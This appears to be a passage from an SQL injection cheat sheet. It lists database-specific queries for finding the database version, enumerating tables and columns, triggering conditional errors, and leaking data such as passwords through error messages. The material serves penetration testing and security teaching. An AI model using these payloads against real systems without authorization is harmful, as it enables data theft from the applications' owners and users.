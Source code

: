 ## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

|            |                                                               |
| ---------- | ------------------------------------------------------------- |
| Oracle     | `SELECT banner FROM v$version SELECT version FROM v$instance` |
| Microsoft  | `SELECT @@version`                                            |
| PostgreSQL | `SELECT version()`                                            |
| MySQL      | `SELECT @@version`                                            |

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

|            |                                                                                                                         |
| ---------- | ----------------------------------------------------------------------------------------------------------------------- |
| Oracle     | `SELECT * FROM all_tables SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`                           |
| Microsoft  | `SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | `SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL      | `SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

|            |                                                                                         |
| ---------- | --------------------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`      |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`          |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

## Extracting data via visible error messages

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

|            |                                                                                                                             |
| ---------- | --------------------------------------------------------------------------------------------------------------------------- |
| Microsoft  | `SELECT 'foo' WHERE 1 = (SELECT 'secret') > Conversion failed when converting the varchar value 'secret' to data type int.` |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int) > invalid input syntax for integer: "secret"`                     |
| MySQL      | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret'))) > XPATH syntax error: '\secret'`               |
